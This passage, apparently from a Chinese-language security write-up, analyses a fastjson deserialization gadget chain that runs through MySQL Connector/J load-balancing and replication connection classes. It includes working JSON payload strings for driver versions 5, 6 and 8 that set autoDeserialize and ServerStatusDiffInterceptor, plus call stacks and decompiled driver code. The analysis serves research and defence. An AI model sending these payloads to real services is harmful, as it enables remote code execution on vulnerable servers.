parseObject:386, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1380, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1346, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:156, JSON (com.alibaba.fastjson)
parse:166, JSON (com.alibaba.fastjson)
parse:135, JSON (com.alibaba.fastjson)
main:7, jdbc
```



我们的参数如下



首先走到 LoadBalancedMySQLConnection 的构造方法

参数是 LoadBalancedConnectionProxy 代理

```
public LoadBalancedMySQLConnection(LoadBalancedConnectionProxy proxy) {
    super(proxy);
}
```

然后就会实例化 LoadBalancedConnectionProxy 对象，代码很长，主要对各种属性赋值，方便后续的连接

```
public LoadBalancedConnectionProxy(ConnectionString connectionString) throws SQLException {
    super();

    List<String> hosts = ConnectionString.getHosts(connectionString.getProperties());
    Properties props = connectionString.getProperties();

    String group = props.getProperty(PropertyDefinitions.PNAME_loadBalanceConnectionGroup, null);
    boolean enableJMX = false;
    String enableJMXAsString = props.getProperty(PropertyDefinitions.PNAME_ha_enableJMX, "false");
    try {
        enableJMX = Boolean.parseBoolean(enableJMXAsString);
    } catch (Exception e) {
        throw SQLError.createSQLException(Messages.getString("MultihostConnection.badValueForHaEnableJMX", new Object[] { enableJMXAsString }),
                SQLError.SQL_STATE_ILLEGAL_ARGUMENT, null);
    }

    if (group != null) {
        this.connectionGroup = ConnectionGroupManager.getConnectionGroupInstance(group);
        if (enableJMX) {
            ConnectionGroupManager.registerJmx();
        }
        this.connectionGroupProxyID = this.connectionGroup.registerConnectionProxy(this, hosts);
        hosts = new ArrayList<String>(this.connectionGroup.getInitialHosts());
    }

    // hosts specifications may have been reset with settings from a previous connection group
    int numHosts = initializeHostsSpecs(connectionString, hosts, props);

    this.liveConnections = new HashMap<String, ConnectionImpl>(numHosts);
    this.hostsToListIndexMap = new HashMap<String, Integer>(numHosts);
    for (int i = 0; i < numHosts; i++) {
        this.hostsToListIndexMap.put(this.hostList.get(i), i);
    }
    this.connectionsToHostsMap = new HashMap<ConnectionImpl, String>(numHosts);
    this.responseTimes = new long[numHosts];

    String retriesAllDownAsString = this.localProps.getProperty(PropertyDefinitions.PNAME_retriesAllDown, "120");
    try {
        this.retriesAllDown = Integer.parseInt(retriesAllDownAsString);
    } catch (NumberFormatException nfe) {
        throw SQLError.createSQLException(
                Messages.getString("LoadBalancingConnectionProxy.badValueForRetriesAllDown", new Object[] { retriesAllDownAsString }),
                SQLError.SQL_STATE_ILLEGAL_ARGUMENT, null);
    }

    String blacklistTimeoutAsString = this.localProps.getProperty(PropertyDefinitions.PNAME_loadBalanceBlacklistTimeout, "0");
    try {
        this.globalBlacklistTimeout = Integer.parseInt(blacklistTimeoutAsString);
    } catch (NumberFormatException nfe) {
        throw SQLError.createSQLException(
                Messages.getString("LoadBalancingConnectionProxy.badValueForLoadBalanceBlacklistTimeout", new Object[] { retriesAllDownAsString }),
                SQLError.SQL_STATE_ILLEGAL_ARGUMENT, null);
    }

    String strategy = this.localProps.getProperty(PropertyDefinitions.PNAME_loadBalanceStrategy, "random");
    try {
        if ("random".equals(strategy)) {
            this.balancer = (BalanceStrategy) Util
                    .loadExtensions(null, props, RandomBalanceStrategy.class.getName(), "InvalidLoadBalanceStrategy", null, this.log).get(0);
        } else if ("bestResponseTime".equals(strategy)) {
            this.balancer = (BalanceStrategy) Util
                    .loadExtensions(null, props, BestResponseTimeBalanceStrategy.class.getName(), "InvalidLoadBalanceStrategy", null, this.log).get(0);
        } else {
            this.balancer = (BalanceStrategy) Util.loadExtensions(null, props, strategy, "InvalidLoadBalanceStrategy", null, this.log).get(0);
        }
    } catch (CJException e) {
        throw SQLExceptionsMapping.translateException(e);
    }
    String autoCommitSwapThresholdAsString = props.getProperty(PropertyDefinitions.PNAME_loadBalanceAutoCommitStatementThreshold, "0");
    try {
        this.autoCommitSwapThreshold = Integer.parseInt(autoCommitSwapThresholdAsString);
    } catch (NumberFormatException nfe) {
        throw SQLError.createSQLException(Messages.getString("LoadBalancingConnectionProxy.badValueForLoadBalanceAutoCommitStatementThreshold",
                new Object[] { autoCommitSwapThresholdAsString }), SQLError.SQL_STATE_ILLEGAL_ARGUMENT, null);
    }

    String autoCommitSwapRegex = props.getProperty(PropertyDefinitions.PNAME_loadBalanceAutoCommitStatementRegex, "");
    if (!("".equals(autoCommitSwapRegex))) {
        try {
            "".matches(autoCommitSwapRegex);
        } catch (Exception e) {
            throw SQLError.createSQLException(
                    Messages.getString("LoadBalancingConnectionProxy.badValueForLoadBalanceAutoCommitStatementRegex", new Object[] { autoCommitSwapRegex }),
                    SQLError.SQL_STATE_ILLEGAL_ARGUMENT, null);
        }
    }

    if (this.autoCommitSwapThreshold > 0) {
        String statementInterceptors = this.localProps.getProperty(PropertyDefinitions.PNAME_statementInterceptors);
        if (statementInterceptors == null) {
            this.localProps.setProperty(PropertyDefinitions.PNAME_statementInterceptors, LoadBalancedAutoCommitInterceptor.class.getName());
        } else if (statementInterceptors.length() > 0) {
            this.localProps.setProperty(PropertyDefinitions.PNAME_statementInterceptors,
                    statementInterceptors + "," + LoadBalancedAutoCommitInterceptor.class.getName());
        }
        props.setProperty(PropertyDefinitions.PNAME_statementInterceptors, this.localProps.getProperty(PropertyDefinitions.PNAME_statementInterceptors));

    }

    try {
        this.balancer.init(null, props, this.log);

        String lbExceptionChecker = this.localProps.getProperty(PropertyDefinitions.PNAME_loadBalanceExceptionChecker,
                StandardLoadBalanceExceptionChecker.class.getName());
        this.exceptionChecker = (LoadBalanceExceptionChecker) Util
                .loadExtensions(null, props, lbExceptionChecker, "InvalidLoadBalanceExceptionChecker", null, this.log).get(0);
    } catch (CJException e) {
        throw SQLExceptionsMapping.translateException(e, null);
    }

    pickNewConnection();
}
```

然后进入 pickNewConnection 方法发起一次新连接

关键代码如下

```
public synchronized void pickNewConnection() throws SQLException {
    if (this.isClosed && this.closedExplicitly) {
        return;
    }

    if (this.currentConnection == null) { // startup
        this.currentConnection = this.balancer.pickConnection(this, Collections.unmodifiableList(this.hostList),
                Collections.unmodifiableMap(this.liveConnections), this.responseTimes.clone(), this.retriesAllDown);
        return;
    }
```

进入 pickConnection 方法

关键代码如下

```
public ConnectionImpl pickConnection(LoadBalancedConnectionProxy proxy, List<String> configuredHosts, Map<String, ConnectionImpl> liveConnections,
        long[] responseTimes, int numRetries) throws SQLException {
    int numHosts = configuredHosts.size();

    SQLException ex = null;

    List<String> whiteList = new ArrayList<String>(numHosts);
    whiteList.addAll(configuredHosts);

    Map<String, Long> blackList = proxy.getGlobalBlacklist();

    whiteList.removeAll(blackList.keySet());

    Map<String, Integer> whiteListMap = this.getArrayIndexMap(whiteList);

    for (int attempts = 0; attempts < numRetries;) {
        int random = (int) Math.floor((Math.random() * whiteList.size()));
        if (whiteList.size() == 0) {
            throw SQLError.createSQLException(Messages.getString("RandomBalanceStrategy.0"), null);
        }

        String hostPortSpec = whiteList.get(random);

        ConnectionImpl conn = liveConnections.get(hostPortSpec);

        if (conn == null) {
            try {
                conn = proxy.createConnectionForHost(hostPortSpec);
            } catch (SQLException sqlEx) {
                ex = sqlEx;

                
```

要开始创建我们的连接代理了

createConnectionForHost

```
public synchronized ConnectionImpl createConnectionForHost(String hostPortSpec) throws SQLException {
    ConnectionImpl conn = super.createConnectionForHost(hostPortSpec);

    this.liveConnections.put(hostPortSpec, conn);
    this.connectionsToHostsMap.put(conn, hostPortSpec);

    this.activePhysicalConnections++;
    this.totalPhysicalConnections++;

    return conn;
}
```

可以发现是在创建 ConnectionImpl 对象了

```
synchronized ConnectionImpl createConnectionForHost(String hostPortSpec) throws SQLException {
    Properties connProps = (Properties) this.localProps.clone();

    String[] hostPortPair = ConnectionString.parseHostPortPair(hostPortSpec);
    String hostName = hostPortPair[PropertyDefinitions.HOST_NAME_INDEX];
    String portNumber = hostPortPair[PropertyDefinitions.PORT_NUMBER_INDEX];

    if (hostName == null) {
        throw new SQLException(Messages.getString("MultiHostConnectionProxy.0"));
    }
    if (portNumber == null) {
        portNumber = "3306"; // use default
    }

    connProps.setProperty(PropertyDefinitions.HOST_PROPERTY_KEY, hostName);
    connProps.setProperty(PropertyDefinitions.PORT_PROPERTY_KEY, portNumber);
    connProps.setProperty(PropertyDefinitions.HOST_PROPERTY_KEY + ".1", hostName);
    connProps.setProperty(PropertyDefinitions.PORT_PROPERTY_KEY + ".1", portNumber);
    connProps.setProperty(PropertyDefinitions.NUM_HOSTS_PROPERTY_KEY, "1");
    connProps.setProperty(PropertyDefinitions.PNAME_roundRobinLoadBalance, "false"); // make sure we don't pickup the default value

    ConnectionImpl conn = (ConnectionImpl) ConnectionImpl.getInstance(this.connectionString, hostName, Integer.parseInt(portNumber), connProps);

    conn.setProxy(getProxy());

    return conn;
}
```

初始化各种属性的值然后调用 ConnectionImpl.getInstance 去实例化

之后就和 JDBC4Connection 的过程一模一样了

## LoadBalancedConnectionProxy

8.0.19

### 测试代码

```
import com.alibaba.fastjson.JSON;

public class jdbc {
    public static void main(String[] args) {
        String mysql5="{"name": {"@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "localhost", "portToConnectTo": 62037, "info": { "user": "deser_CUSTOM", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" }}";
        String mysql6="{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection","proxy": {"connectionString":{"url":"jdbc:mysql://localhost:62037/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CUSTOM&useSSL=false"}}}";
        String mysql8="
" +
                "{
" +
                "       "@type":"java.lang.AutoCloseable",
" +
                "       "@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
" +
                "       "proxy": {
" +
                "              "@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
" +
                "              "connectionUrl":{
" +
                "                     "@type":"com.mysql.cj.conf.url.ReplicationConnectionUrl",
" +
                "                     "masters":[{
" +
                "                            "host":""
" +
                "                     }],
" +
                "                     "slaves":[],
" +
                "                     "properties":{
" +
                "                            "host":"127.0.0.1",
" +
                "                            "user":"deser_CUSTOM",
" +
                "                            "dbname":"dbname",
" +
                "                            "password":"pass",
" +
                "                            "queryInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
" +
                "                            "autoDeserialize":"true"
" +
                "                     }
" +
                "              }
" +
                "       }
" +
                "}";
        JSON.parse(mysql8);
    }
}
```

### 简单复现

任然使用我们一样的字节码

运行即可



### 调试分析

初始调用栈

```
<init>:116, ReplicationConnectionUrl (com.mysql.cj.conf.url)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
deserialze:966, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:766, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:85, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:794, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:766, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:85, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:794, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:766, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:386, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1380, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1346, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:156, JSON (com.alibaba.fastjson)
parse:166, JSON (com.alibaba.fastjson)
parse:135, JSON (com.alibaba.fastjson)
main:30, jdbc
```

这里是开始实例化我们的 ReplicationConnectionUrl 对象，主要是封装我们需要连接参数的作用

```
public ReplicationConnectionUrl(List<HostInfo> masters, List<HostInfo> slaves, Map<String, String> properties) {
    this.originalConnStr = Type.REPLICATION_CONNECTION.getScheme() + "//**internally_generated**" + System.currentTimeMillis() + "**";
    this.originalDatabase = properties.containsKey(PropertyKey.DBNAME.getKeyName()) ? (String)properties.get(PropertyKey.DBNAME.getKeyName()) : "";
    this.type = Type.REPLICATION_CONNECTION;
    this.properties.putAll(properties);
    this.injectPerTypeProperties(this.properties);
    this.setupPropertiesTransformer();
    Stream var10000 = masters.stream().map(this::fixHostInfo);
    List var10001 = this.masterHosts;
    var10001.getClass();
    var10000 = var10000.peek(var10001::add);
    var10001 = this.hosts;
    var10000.forEach(var10001::add);
    var10000 = slaves.stream().map(this::fixHostInfo);
    var10001 = this.slaveHosts;
    var10001.getClass();
    var10000 = var10000.peek(var10001::add);
    var10001 = this.hosts;
    var10000.forEach(var10001::add);
}
```

封装后的

```
com.mysql.cj.conf.url.ReplicationConnectionUrl@358c99f5 :: {type: "REPLICATION_CONNECTION", hosts: [com.mysql.cj.conf.HostInfo@5ad851c9 :: {host: "127.0.0.1", port: 3306, hostProperties: {autoDeserialize=true, queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor, dbname=dbname}}], database: "dbname", properties: {autoDeserialize=true, password=pass, queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor, dbname=dbname, host=127.0.0.1, user=deser_CUSTOM}, propertiesTransformer: null}
```

这里我们没有传入 port，默认的就是 3306

然后回到熟悉的地方 LoadBalancedConnectionProxy

```
public LoadBalancedConnectionProxy(ConnectionUrl connectionUrl) throws SQLException {
    Properties props = connectionUrl.getConnectionArgumentsAsProperties();
    String group = props.getProperty(PropertyKey.loadBalanceConnectionGroup.getKeyName(), (String)null);
    boolean enableJMX = false;
    String enableJMXAsString = props.getProperty(PropertyKey.ha_enableJMX.getKeyName(), "false");

    try {
        enableJMX = Boolean.parseBoolean(enableJMXAsString);
    } catch (Exception var22) {
        throw SQLError.createSQLException(Messages.getString("MultihostConnection.badValueForHaEnableJMX", new Object[]{enableJMXAsString}), "S1009", (ExceptionInterceptor)null);
    }

    List hosts;
    if (!StringUtils.isNullOrEmpty(group) && LoadBalanceConnectionUrl.class.isAssignableFrom(connectionUrl.getClass())) {
        this.connectionGroup = ConnectionGroupManager.getConnectionGroupInstance(group);
        if (enableJMX) {
            ConnectionGroupManager.registerJmx();
        }

        this.connectionGroupProxyID = this.connectionGroup.registerConnectionProxy(this, ((LoadBalanceConnectionUrl)connectionUrl).getHostInfoListAsHostPortPairs());
        hosts = ((LoadBalanceConnectionUrl)connectionUrl).getHostInfoListFromHostPortPairs(this.connectionGroup.getInitialHosts());
    } else {
        hosts = connectionUrl.getHostsList();
    }

    int numHosts = this.initializeHostsSpecs(connectionUrl, hosts);
    this.liveConnections = new HashMap(numHosts);
    this.hostsToListIndexMap = new HashMap(numHosts);

    for(int i = 0; i < numHosts; ++i) {
        this.hostsToListIndexMap.put(((HostInfo)this.hostsList.get(i)).getHostPortPair(), i);
    }

    this.connectionsToHostsMap = new HashMap(numHosts);
    this.responseTimes = new long[numHosts];
    String retriesAllDownAsString = props.getProperty(PropertyKey.retriesAllDown.getKeyName(), "120");

    try {
        this.retriesAllDown = Integer.parseInt(retriesAllDownAsString);
    } catch (NumberFormatException var21) {
        throw SQLError.createSQLException(Messages.getString("LoadBalancedConnectionProxy.badValueForRetriesAllDown", new Object[]{retriesAllDownAsString}), "S1009", (ExceptionInterceptor)null);
    }

    String blacklistTimeoutAsString = props.getProperty(PropertyKey.loadBalanceBlacklistTimeout.getKeyName(), "0");

    try {
        this.globalBlacklistTimeout = Integer.parseInt(blacklistTimeoutAsString);
    } catch (NumberFormatException var20) {
        throw SQLError.createSQLException(Messages.getString("LoadBalancedConnectionProxy.badValueForLoadBalanceBlacklistTimeout", new Object[]{blacklistTimeoutAsString}), "S1009", (ExceptionInterceptor)null);
    }

    String hostRemovalGracePeriodAsString = props.getProperty(PropertyKey.loadBalanceHostRemovalGracePeriod.getKeyName(), "15000");

    try {
        this.hostRemovalGracePeriod = Integer.parseInt(hostRemovalGracePeriodAsString);
    } catch (NumberFormatException var19) {
        throw SQLError.createSQLException(Messages.getString("LoadBalancedConnectionProxy.badValueForLoadBalanceHostRemovalGracePeriod", new Object[]{hostRemovalGracePeriodAsString}), "S1009", (ExceptionInterceptor)null);
    }

    String strategy = props.getProperty(PropertyKey.ha_loadBalanceStrategy.getKeyName(), "random");

    try {
        switch (strategy) {
            case "random":
                this.balancer = new RandomBalanceStrategy();
                break;
            case "bestResponseTime":
                this.balancer = new BestResponseTimeBalanceStrategy();
                break;
            case "serverAffinity":
                this.balancer = new ServerAffinityStrategy(props.getProperty(PropertyKey.serverAffinityOrder.getKeyName(), (String)null));
                break;
            default:
                this.balancer = (BalanceStrategy)Class.forName(strategy).newInstance();
        }
    } catch (Throwable var18) {
        throw SQLError.createSQLException(Messages.getString("InvalidLoadBalanceStrategy", new Object[]{strategy}), "S1009", var18, (ExceptionInterceptor)null);
    }

    String autoCommitSwapThresholdAsString = props.getProperty(PropertyKey.loadBalanceAutoCommitStatementThreshold.getKeyName(), "0");

    try {
        Integer.parseInt(autoCommitSwapThresholdAsString);
    } catch (NumberFormatException var17) {
        throw SQLError.createSQLException(Messages.getString("LoadBalancedConnectionProxy.badValueForLoadBalanceAutoCommitStatementThreshold", new Object[]{autoCommitSwapThresholdAsString}), "S1009", (ExceptionInterceptor)null);
    }

    String autoCommitSwapRegex = props.getProperty(PropertyKey.loadBalanceAutoCommitStatementRegex.getKeyName(), "");
    if (!"".equals(autoCommitSwapRegex)) {
        try {
            "".matches(autoCommitSwapRegex);
        } catch (Exception var16) {
            throw SQLError.createSQLException(Messages.getString("LoadBalancedConnectionProxy.badValueForLoadBalanceAutoCommitStatementRegex", new Object[]{autoCommitSwapRegex}), "S1009", (ExceptionInterceptor)null);
        }
    }

    try {
        String lbExceptionChecker = props.getProperty(PropertyKey.loadBalanceExceptionChecker.getKeyName(), StandardLoadBalanceExceptionChecker.class.getName());
        this.exceptionChecker = (LoadBalanceExceptionChecker)Util.getInstance(lbExceptionChecker, new Class[0], new Object[0], (ExceptionInterceptor)null, Messages.getString("InvalidLoadBalanceExceptionChecker"));
        this.exceptionChecker.init(props);
    } catch (CJException var15) {
        throw SQLExceptionsMapping.translateException(var15, (ExceptionInterceptor)null);
    }

    this.pickNewConnection();
}
```

到这里就和上面一模一样了，没有任何区别
